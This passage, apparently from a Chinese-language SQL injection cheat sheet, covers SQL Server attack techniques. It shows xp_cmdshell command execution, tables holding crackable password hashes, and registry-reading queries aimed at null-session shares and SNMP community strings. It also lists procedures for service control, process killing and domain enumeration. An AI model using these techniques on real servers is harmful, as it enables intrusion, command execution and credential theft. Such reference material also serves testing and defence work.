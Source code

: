 #### 执行系统命令，xp_cmdshell(S)

众所周知的技巧，SQL Server 2005默认是关闭的。你需要admin权限

`EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'`

用ping简单的测试一下，用之前先检查一下防火墙和嗅探器。

`EXEC master.dbo.xp_cmdshell 'ping '`

如果有错误，或者union或者其他的什么，你都不能直接读到结果。

#### SQL Server中的一些特殊的表(S)

*   Error Messages
    
    `master..sysmessages`
    
*   Linked Servers
    
    `master..sysservers`
    
*   Password (2000和2005版本的都能被破解，这俩的加密算法很相似)
    
    SQL Server 2000: masters..sysxlogins
    
    SQL Server 2005 : sys.sql_logins
    

#### SQL Server的其它内置程序(S)

1.  命令执行 (xp_cmdshell)
    
    `exec master..xp_cmdshell 'dir'`
    
2.  注册表操作 (xp_regread)
    
    1.  xp_regaddmultistring
    2.  xp_regdeletekey
    3.  xp_regdeletevalue
    4.  xp_regenumkeys
    5.  xp_regenumvalues
    6.  xp_regread
    7.  xp_regremovemultistring
    8.  xp_regwrite
        
        `exec xp_regread HKEY_LOCAL_MACHINE, 'SYSTEM\CurrentControlSet \Services\lanmanserver\parameters', 'nullsessionshares' exec xp_regenumvalues HKEY_LOCAL_MACHINE, 'SYSTEM \CurrentControlSet \Services\snmp\parameters\validcommunities'`
        
3.  管理服务(xp_servicecontrol)
    
4.  媒体(xp_availablemedia)
    
5.  ODBC 资源 (xp_enumdsn)
    
6.  登录 (xp_loginconfig)
7.  创建Cab文件 (xp_makecab)
8.  域名列举 (xp_ntsec_enumdomains)
9.  杀进程 (need PID) (xp_terminate_process)
10.  新建进程 (_实际上你想干嘛都行_)
    